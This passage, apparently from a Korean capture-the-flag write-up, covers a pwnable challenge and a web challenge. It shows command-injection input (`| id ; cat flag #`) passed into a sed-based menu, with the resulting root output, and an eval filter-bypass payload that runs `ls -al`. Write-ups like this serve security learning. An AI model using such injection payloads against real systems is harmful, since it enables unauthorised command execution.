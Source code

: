 ```python
```

## 0x19 Event MIC2 [1]
- 중간 생존 확인. 췍췍

## 0x1A Pwnable shellwedance? [300]
- 플래그 파일과 sed, awd 등을 이용하여 플래그 파일과 비교하는 그런거 문제인거 같은데..
- 2번 메뉴에 필터링이 안걸려 있네요...

```
root@ubuntu:/home/hust# ./shellwedance
Hello :D - Learning Data Parser
--------------------------
shellwedance
--------------------------

select option
1. original data
2. sed(include)
3. sed(exclude)
4. sed&awk(conditional)
5. sed&awk(average)
6. awk(pattern&action)
7. exit
2
sed - Include Keyword:
'| id ; cat flag #'
sed -n '/'| id ; cat flag #'/p' ./yeast.data
uid=0(root) gid=0(root) groups=0(root)
sed: -e expression #1, char 1: unterminated address regex
cat: flag: No such file or directory

select option
1. original data
2. sed(include)
3. sed(exclude)
```

## 0x1B Web bypass_filter [200]
- eval 함수 취약점
- 필터링이 이상하네요. 슥삭~

```
content=files_imgfiles1{function i(){return `ls -al`;}}/*
```
